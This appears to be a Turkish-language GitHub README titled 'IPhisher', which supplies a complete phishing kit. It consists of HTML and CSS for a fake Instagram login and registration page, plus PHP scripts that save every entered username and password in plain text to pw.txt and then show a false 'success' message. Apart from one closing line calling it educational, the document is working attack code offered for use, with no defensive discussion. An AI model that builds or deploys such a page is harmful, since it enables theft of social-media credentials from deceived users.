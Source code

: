 # IPhisher
Instagram Phisher
Aşağıdaki kod örneği, Instagram klonu olan giriş yap ve kayıt ol sayfalarını oluşturmanıza yarar. Bu örnekte, kullanıcı adı ve şifre alanlarına girilen veriler size ait sunucudaki daha önce oluşturduğunuz `pw.txt` dosyasına kaydedilecek.

HTML (index.html):
```html
<!DOCTYPE html>
<html>
<head>
    <title>Instagram Benzeri Arayüz</title>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>Instagram</h1>
        </div>
        <div class="content">
            <div class="login-form">
                <h2>Giriş Yap</h2>
                <form action="login.php" method="POST">
                    <input type="text" name="username" placeholder="Kullanıcı Adı" required>
                    <input type="password" name="password" placeholder="Şifre" required>
                    <input type="submit" value="Giriş Yap">
                </form>
            </div>
            <div class="register-form">
                <h2>Kayıt Ol</h2>
                <form action="register.php" method="POST">
                    <input type="text" name="username" placeholder="Kullanıcı Adı" required>
                    <input type="password" name="password" placeholder="Şifre" required>
                    <input type="submit" value="Kayıt Ol">
                </form>
            </div>
        </div>
    </div>
</body>
</html>
```

PHP (login.php):
```php
<?php
    $username = $_POST['username'];
    $password = $_POST['password'];

    // pw.txt dosyasına verileri kaydet
    $file = fopen("pw.txt", "a");
    fwrite($file, "Kullanıcı Adı: " . $username . " - Şifre: " . $password . "\n");
    fclose($file);

    // Giriş işlemini gerçekleştirme veya yönlendirme yapabilirsiniz
    // Burada sadece mesaj basılıyor
    echo "Giriş başarılı!";
?>
```

PHP (register.php):
```php
<?php
    $username = $_POST['username'];
    $password = $_POST['password'];

    // pw.txt dosyasına verileri kaydet
    $file = fopen("pw.txt", "a");
    fwrite($file, "Kullanıcı Adı: " . $username . " - Şifre: " . $password . "\n");
    fclose($file);

    // Kayıt işlemini gerçekleştirme veya yönlendirme yapabilirsiniz
    // Burada sadece mesaj basılıyor
    echo "Kayıt başarılı!";
?>
```
CSS (style.css):
body {
    background-color: #fafafa;
    font-family: Arial, sans-serif;
    margin: 0;
    padding: 0;
}

.container {
    width: 400px;
    margin: 100px auto;
    border: 1px solid #ccc;
    background-color: #fff;
}

.header {
    background-color: #f8f8f8;
    padding: 20px;
    text-align: center;
}

.header h1 {
    margin: 0;
}

.content {
    padding: 20px;
}

h2 {
    margin-top: 0;
}

.login-form,
.register-form {
    margin-bottom: 20px;
}

input[type="text"],
input[type="password"] {
    width: 100%;
    padding: 10px;
    margin-bottom: 10px;
    border: 1px solid #ccc;
    border-radius: 3px;
}

input[type="submit"] {
    width: 100%;
    padding: 10px;
    background-color: #3897f0;
    color: #fff;
    border: none;
    border-radius: 3px;
    cursor: pointer;
}

input[type="submit"]:hover {
    background-color: #357ae8;
}


Yukarıdaki örnek, kullanıcı adı ve şifreyi sunucudaki `pw.txt` dosyasına düz bir metin olarak kaydetmeye yarar ve eğitim amaçlı oluşturulmuştur.
